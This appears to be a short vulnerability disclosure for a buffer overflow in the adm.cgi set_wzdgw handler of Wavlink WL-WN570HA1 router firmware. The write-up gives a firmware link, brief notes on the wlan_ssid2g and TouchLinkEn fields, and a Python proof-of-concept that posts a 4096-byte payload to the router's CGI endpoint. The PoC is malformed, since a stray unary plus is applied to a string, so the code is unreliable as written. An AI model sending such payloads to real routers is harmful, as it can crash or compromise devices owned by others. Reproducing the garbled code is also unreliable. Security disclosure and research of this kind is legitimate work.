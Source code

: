 # buff overflow

## WAVLINK_WL_WN570HA1

version: 20220621

## Description:

There is a buff overflow in adm.cgi/set_wzdgw

## Source:

you may download it from : https://www.wavlink.com/en_us/firmware/details/762dc36209.html

## Analyse:

![](5.png)

get value from wlan_ssid2g

![](4.png)

and we can set TouchLinkEn in wireless.cgi

if TouchLinkEn was set, call sprintf, cause buff overflow

## POC

```
url = "http://192.168.0.1/cgi-bin/adm.cgi"
payload = 'a'*0x1000 + '\n'

r = requests.post(url, data={ 'page':'wzdgw', 'wlan_ssid2g': + payload})
```
